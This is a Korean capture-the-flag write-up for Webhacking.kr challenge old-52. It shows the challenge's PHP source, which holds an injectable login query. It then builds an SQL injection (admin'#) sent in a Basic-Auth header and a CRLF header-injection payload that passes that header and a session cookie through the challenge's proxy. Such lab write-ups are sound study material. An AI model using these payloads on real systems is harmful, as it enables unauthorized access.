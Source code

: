 ```yaml
---
title: ["[Webhacking.kr] old-52 (ssrf - 40)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, ssrf, sqli]
---
```


```
GET /admin/ HTTP/1.1
Host: webhacking.kr:10008
Cache-Control: max-age=0
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
```  
`Authorization`에 `id:pw`를 `Base64`로 인코딩해서 넘긴다.  

```php
<?php
include "config.php";
if($_GET['view_source']) view_source();
if($_GET['logout'] == 1){
  $_SESSION['login']="";
  exit("<script>location.href='./';</script>");
}
if($_SESSION['login']){
  echo "hi {$_SESSION['login']}<br>";
  if($_SESSION['login'] == "admin"){
    if(preg_match("/^172\.17\.0\./",$_SERVER['REMOTE_ADDR'])) echo $flag;
    else echo "Only access from virtual IP address";
  }
  else echo "You are not admin";
  echo "<br><a href=./?logout=1>[logout]</a>";
  exit;
}
if(!$_SESSION['login']){
  if(preg_match("/logout=1/",$_SERVER['HTTP_REFERER'])){
    header('WWW-Authenticate: Basic realm="Protected Area"');
    header('HTTP/1.0 401 Unauthorized');
  }
  if($_SERVER['PHP_AUTH_USER']){
    $id = $_SERVER['PHP_AUTH_USER'];
    $pw = $_SERVER['PHP_AUTH_PW'];
    $pw = md5($pw);
    $db = dbconnect();
    $query = "select id from member where id='{$id}' and pw='{$pw}'";
    $result = mysqli_fetch_array(mysqli_query($db,$query));
    if($result['id']){
      $_SESSION['login'] = $result['id'];
      exit("<script>location.href='./';</script>");
    }
  }
  if(!$_SESSION['login']){
    header('WWW-Authenticate: Basic realm="Protected Area"');
    header('HTTP/1.0 401 Unauthorized');
    echo "Login Fail";
  }
}
?>
```

flag를 출력하기 위해서는 `$_SESSION['login']`이 `admin`이어야 하고,  
`$_SERVER['REMOTE_ADDR']`이 `172.17.0.`로 시작해야 한다.  
`$_SESSION['login']`은 `PHP_AUTH_USER`와 `PHP_AUTH_PW`를 이용해서 설정된다.  

`$_SERVER['REMOTE_ADDR']`는 문제에서 주어진 프록시 서버를 활용하여 조건을 맞출 수 있다.  

먼저, SQLi 테스트를 해보자.  
필터링이 전혀 없으므로,  
`id`를 `admin'#`, `pw`를 `1234`으로 설정하면 `admin`으로 접근이 가능하다.  

```
Authorization: Basic YWRtaW4nIzoxMjM0
```
위의 값을 프록시를 통해 넘겨주면 된다.  

```
GET /admin/ HTTP/1.1
Host: webhacking.kr:10008
Cache-Control: max-age=0
Authorization: Basic YWRtaW4nIzoxMjM0
Accept-Language: en;q=0.9
```
정상적으로 로그인했을 때의 헤더의 모습이다.  
HTTP 헤더는 `\r\n`으로 구분되므로, 이를 이용해서 위의 헤더처럼 구성할 수 있다.  

뒤에 붙는 `HTTP/1.1`을 처리하기 위해 안 쓰이는 헤더 값을 사용할 수 있다.  

```
?page=/admin/+HTTP/1.1%0d%0aAuthorization:+Basic+YWRtaW4nIzoxMjM0%0d%0aAccept-Language:
```  
최종적인 페이로드는 다음과 같이 구성했다.  

정상적으로 요청이 갔지만 메인페이지로 리다이렉트가 된다.  

```php
if($result['id']){
    $_SESSION['login'] = $result['id'];
    exit("<script>location.href='./';</script>");
}
```  
소스코드를 확인해보니 로그인에 성공할 시에 session 값을 설정하고 리다이렉트하기 때문이었다.  

```php
if($_SESSION['login']){
  echo "hi {$_SESSION['login']}<br>";
  if($_SESSION['login'] == "admin"){
    if(preg_match("/^172\.17\.0\./",$_SERVER['REMOTE_ADDR'])) echo $flag;
    else echo "Only access from virtual IP address";
  }
```  

이 부분이 실행되기 위해, 응답으로 온 session 값을 넣어서 다시 보내 보자.
```
page=/admin/+HTTP/1.1%0d%0aCookie:+PHPSESSID=uk503njuh70n605jenvrb32be4%0d%0aAccept-Language:
```  

성공적으로 flag가 나온다.
